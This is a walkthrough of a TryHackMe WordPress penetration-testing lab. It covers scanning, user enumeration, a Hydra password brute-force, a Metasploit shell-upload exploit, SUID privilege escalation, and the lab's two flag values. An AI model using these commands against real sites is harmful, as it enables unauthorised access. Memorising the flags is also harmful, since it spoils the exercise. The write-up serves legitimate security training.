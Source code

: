 # THM-Writeup-WordPress-Security
Writeup for TryHackMe WordPress Pentest Lab - including security tools, commands used, and key lessons learned.

https://tryhackme.com/r/room/blog

## Background

The **Blog** lab on TryHackMe provides a vulnerable WordPress site set up by "Billy Joel" as the target. The primary objective of the lab was to uncover two flags: `user.txt` and `root.txt`. This exercise required leveraging reconnaissance, enumeration, exploitation, and privilege escalation techniques. The lab also focused on identifying misconfigurations in WordPress and exploiting these weaknesses to gain administrative and root access.

Through this lab, I enhanced my knowledge of web application vulnerabilities, practiced privilege escalation techniques, and refined my use of various penetration testing tools.

---

## Step-by-Step Walkthrough

### Step 1: Configuring the Environment

#### Adding `blog.thm` to `/etc/hosts`
To resolve `blog.thm` to the target machine's IP address, I modified the `/etc/hosts` file:
```bash
echo "10.10.120.185 blog.thm" >> /etc/hosts
```

---

### Step 2: Scanning and Enumeration

#### 1. Nmap Scan
I performed a network scan to identify open ports and services:
```bash
nmap -sC -sV -oN nmap_scan blog.thm
```
**Findings:**
- Port 80: HTTP (WordPress)
- Port 445: SMB

#### 2. SMB Enumeration
Using `smbclient`, I enumerated accessible SMB shares:
```bash
smbclient -L \\blog.thm
```
I then connected to the `BillySMB` share and downloaded all files:
```bash
smbclient \\blog.thm\BillySMB
mget *
```
The files contained images and text but yielded no actionable information.

---

### Step 3: Web Application Enumeration

#### 1. Directory Enumeration with Gobuster
To discover hidden directories on the web application, I used Gobuster:
```bash
gobuster dir -u http://blog.thm -w /usr/share/wordlists/dirb/common.txt
```
**Discovered Directories:**
- `/admin`
- `/wp-json`
- `/wp-content`

#### 2. WordPress Enumeration with WPSCAN
I enumerated the WordPress site for users and vulnerabilities:
```bash
wpscan --url http://blog.thm --enumerate u
```
**Results:**
- WordPress version: `5.0`
- Users: `kwheel`, `bjoel`

---

### Step 4: Gaining Admin Access

#### Brute-Force Attack on WordPress
Using Hydra, I brute-forced the WordPress admin credentials:
```bash
hydra -L users.txt -P passwords.txt http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:invalid"
```
**Successful Credentials:**
- Username: `kwheel`
- Password: `password123`

---

### Step 5: Exploiting WordPress

#### 1. Identifying Vulnerabilities
From the admin dashboard, I confirmed the WordPress version as `5.0` and searched Exploit-DB for vulnerabilities:
```bash
searchsploit wordpress 5.0
```
An authenticated RCE vulnerability was identified.

#### 2. Exploiting with Metasploit
Using Metasploit, I exploited the vulnerability to gain a reverse shell:
```bash
msfconsole
use exploit/unix/webapp/wp_admin_shell_upload
set RHOST blog.thm
set USERNAME kwheel
set PASSWORD password123
set TARGETURI /wp-admin
run
```

---

### Step 6: Privilege Escalation to Root

#### 1. Identifying SUID Files
I enumerated SUID binaries to identify potential privilege escalation vectors:
```bash
find / -perm -4000 2>/dev/null
```
**Key Finding:** A binary named `checker`.

#### 2. Exploiting the SUID Binary
Executing the `checker` binary escalated my privileges to root:
```bash
./checker
```

---

### Step 7: Retrieving the Flags

#### Retrieving `user.txt`
I navigated to the home directory of `kwheel` and retrieved the flag:
```bash
cat /home/kwheel/user.txt
```
**Flag:** `9a0b2b618bef9bfa7ac28c1353d9f318`

#### Retrieving `root.txt`
With root access, I navigated to the `/root` directory and retrieved the second flag:
```bash
cat /root/root.txt
```
**Flag:** `c8421899aae571f7af486492b71a8ab7`

---

## Tools and Commands Utilized

- **Nmap**: Network scanning and service enumeration.
  ```bash
  nmap -sC -sV -oN nmap_scan blog.thm
  ```
- **Smbclient**: SMB share enumeration and file download.
  ```bash
  smbclient -L \\blog.thm
  smbclient \\blog.thm\BillySMB
  ```
- **Gobuster**: Directory enumeration.
  ```bash
  gobuster dir -u http://blog.thm -w /usr/share/wordlists/dirb/common.txt
  ```
- **Wpscan**: WordPress vulnerability and user enumeration.
  ```bash
  wpscan --url http://blog.thm --enumerate u
  ```
- **Hydra**: Brute-forcing WordPress credentials.
  ```bash
  hydra -L users.txt -P passwords.txt http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:invalid"
  ```
- **Metasploit**: WordPress exploitation.
  ```bash
  msfconsole
  use exploit/unix/webapp/wp_admin_shell_upload
  ```
- **Find Command**: SUID binary enumeration.
  ```bash
  find / -perm -4000 2>/dev/null
  ```

---

## Key Lessons Learned

1. **Reconnaissance and Enumeration**:
   - Nmap, Gobuster, and WPSCAN are great tools for discovering attack surfaces.
2. **WordPress Vulnerabilities**:
   - Exploiting misconfigurations and leveraging RCE vulnerabilities.
3. **Privilege Escalation**:
   - Identifying and exploiting SUID binaries for root access.
4. **Using Metasploit Effectively**:
   - Automating exploitation tasks for efficiency.

---

## Conclusion

The Blog lab was a valuable exercise in web application penetration testing. It enhanced my skills in reconnaissance, vulnerability exploitation, and privilege escalation while reinforcing the importance of systematic enumeration and targeted attacks. 
